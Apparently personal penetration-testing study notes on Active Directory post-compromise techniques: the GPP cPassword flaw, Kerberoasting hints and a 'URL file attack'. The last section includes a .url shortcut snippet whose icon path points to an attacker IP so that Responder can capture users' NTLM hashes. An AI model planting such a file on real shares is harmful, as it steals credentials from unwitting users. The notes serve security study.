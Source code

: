- **Resource :** **Group Policy Pwnage**:
    
    [Pentesting in the Real World: Group Policy Pwnage | Rapid7 Blog](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
    
- **Group Policy Preferences (GPP) [MS14-025] :**
    - Group Policy preferences allowed admins **to create policies using embedded credentials.**
    - These Credentials were **encrypted** and placed in **“cPassword”.**
    - The key was **accidentally** released **(whoops).**
    - Patched in MS14-025 , but **doesn’t prevent previous uses.**
    - You search for **Groups.xml** when you search for GPP.
    - Port 445 open
    - Relation between **SMB and GPP attack in Enumeration phase we find that 445 port (Which SMB port is open and the attack involves utilizing SMB ) and we search with SMB for anonymous access[ For challenge] —> Search for Group.xml.**
    - When we in situation that we can use user credentials and TGS might have tipped off —> we think in **Kerberoasting.**
    - Final tip for challenge : If you have a credential and **it doesn’t have to be that can get you onto the machine so we can use Kerberoasting or GPP to get stored credentials somewhere.**

## **URL File Attacks**

- **Scenario :** You have compromised a user and this user has **any sort of file share access so we can utilize that access to capture more hashes using responder and get back to try to crack this hashes and may be get different users with more access.**
- **URL attack :**
    - This ip address will go to be attacker ip address to catch the hash :
        
        ![254.jpg](../../../Media/network-pentesting/Post-Compromise%20Attacks%20c394fba008434e5c95b59982a1f3ade3/254.jpg)
        
    - Save this file in share folder :
        
        ![255jpg.jpg](../../../Media/network-pentesting/Post-Compromise%20Attacks%20c394fba008434e5c95b59982a1f3ade3/255jpg.jpg)
        
        ```html
        [InternetShortcut]
        URL=blah
        WorkingDirectory=blah
        IconFile=\\x.x.x.x\%USERNAME%.icon
        IconIndex=1
        ```
        
        ![256.jpg](../../../Media/network-pentesting/Post-Compromise%20Attacks%20c394fba008434e5c95b59982a1f3ade3/256.jpg)
        
    - To make this file at the top of the folder in file share folder and this ensures that it loads . **Note the filename and save as type.**
        
        ![257.jpg](../../../Media/network-pentesting/Post-Compromise%20Attacks%20c394fba008434e5c95b59982a1f3ade3/257.jpg)
        
        - Using Responder to get the hash.
        
        ![258.jpg](../../../Media/network-pentesting/Post-Compromise%20Attacks%20c394fba008434e5c95b59982a1f3ade3/258.jpg)
        